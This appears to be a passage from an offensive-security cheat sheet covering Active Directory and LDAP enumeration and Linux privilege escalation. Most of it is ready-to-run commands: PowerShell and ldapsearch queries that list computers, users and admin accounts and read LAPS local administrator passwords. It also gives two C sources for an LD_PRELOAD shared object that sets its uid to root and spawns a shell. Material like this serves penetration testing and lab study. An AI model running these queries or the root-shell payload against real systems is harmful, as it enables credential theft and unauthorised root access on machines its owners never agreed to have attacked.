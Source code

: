 ### LDAP

> https://github.com/infosecn1nja/AD-Attack-Defense

> https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/

> https://adsecurity.org/?p=2288

#### Queries

```c
$ (New-Object adsisearcher((New-Object adsi("LDAP://dc.<DOMAIN>.local","<DOMAIN>\<USERNAME>","<PASSWORD>")),"(objectCategory=Computer)")).FindAll() | %{ $_.Properties.name }
$ (New-Object adsisearcher((New-Object adsi("LDAP://dc.<DOMAIN>.local","<DOMAIN>\<USERNAME>","<PASSWORD>")),"(info=*)")).FindAll() | %{ $_.Properties }
```

### ldapsearch

```c
$ ldapsearch -x -h <RHOST> -s base namingcontexts
$ ldapsearch -D <USERNAME> -H ldap://<RHOST> -w "<PASSWORD>" -b "CN=Users,DC=contoso,DC=local" | grep info
$ ldapsearch -x -b "dc=<DOMAIN>,dc=local" "*" -h <RHOST> | awk '/dn: / {print $2}'
$ ldapsearch -x -D "cn=admin,dc=<DOMAIN>,dc=local" -s sub "cn=*" -h <RHOST> | awk '/uid: /{print $2}' | nl
$ ldapsearch -D "cn=admin,dc=acme,dc=com" "(objectClass=*)" -w ldapadmin -h ldap.acme.com
$ ldapsearch -x -h <RHOST> -D "<USERNAME>"  -b "dc=<DOMAIN>,dc=local" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
$ ldapsearch -x -w <PASSWORD>
$ ldapsearch -H ldap://<DOMAIN> -b "DC=<DOMAIN>,DC=local" > <FILE>.txt
```

### LD\_PRELOAD

> https://www.hackingarticles.in/linux-privilege-escalation-using-ld\_preload/

#### shell.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

or

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
